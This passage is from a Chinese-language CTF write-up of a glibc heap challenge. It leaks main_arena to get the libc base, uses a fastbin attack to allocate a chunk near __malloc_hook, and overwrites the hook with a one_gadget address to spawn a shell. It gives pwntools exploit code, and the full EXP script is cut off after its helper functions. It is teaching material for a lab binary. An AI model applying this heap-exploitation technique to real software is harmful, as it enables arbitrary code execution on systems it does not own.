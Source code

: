 ![image.png](https://i.loli.net/2020/05/20/HnsT2g56fRjmJO4.png)

如果Libc的基址为0x00007fd6ba201000，我们获得的main_arena地址为0x00007fd6ba5c5b78，main_arena相对libc基址的偏移量为0x00007fd6ba5c5b78-0x00007fd6ba201000=0x3c4b78。我们将泄露的main_arena减去这个偏移量就可以获得libc的基址。到这里我们已经成功地获得了libc_base。

### 利用Fast bin attack分配__malloc_hock_附件的堆块

这一步我们需要在__malloc_hock_附件找一个可以bypass fastbin size验证的堆块。

![image.png](https://i.loli.net/2020/05/20/xvTOkp3Ks56m8oC.png)

![image.png](https://i.loli.net/2020/05/20/NS7Mv8WiFKDe91p.png)

利用错位后，我们可以构造出一个0x7f大小的堆块，即用户数据为0x60大小。如此我们利用fastbin attack就可以分配一个在__malloc_hock附件的堆块。这里的利用我就不贴堆块变化了，和上面的堆块利用变化差不多。直接贴代码。

```python
alloc(0x60) #6
alloc(0x10) #7
free(6)
payload=p64(0)+p64(0)+p64(0)+p64(0x71)+p64(target)
fill(5,len(payload),payload)
alloc(0x60) #6
alloc(0x60) #8
```

### 修改__malloc_hock_的值为one_gadget

利用ona_gadget查找地址。

![image.png](https://i.loli.net/2020/05/20/Rs7ACzPJDgEFw82.png)

这里我利用的是第二个地址。然后用在__malloc_hock_周围分配的堆块，去修改__malloc_hock_的值。这里需要注意计算__malloc_hock_的地址相对于堆块地址的偏移。

```python
payload='a'*0x13+p64(libc_base+0x4526a)
fill(8,len(payload),payload)
```

### 分配堆块，获得shell

最后，随便分配一个堆块，就可以执行one_gadget。

# EXP

```python
#Author:Nop
from pwn import *

sh=process('./pwn2')

def alloc(size):
    sh.recvuntil(':')
    sh.sendline('1')
    sh.recvuntil(':')
    sh.sendline(str(size))

def fill(index,size,content):
    sh.recvuntil(':')
    sh.sendline('2')
    sh.recvuntil(':')
    sh.sendline(str(index))
    sh.recvuntil(':')
    sh.sendline(str(size))
    sh.recvuntil(':')
    sh.send(content)
```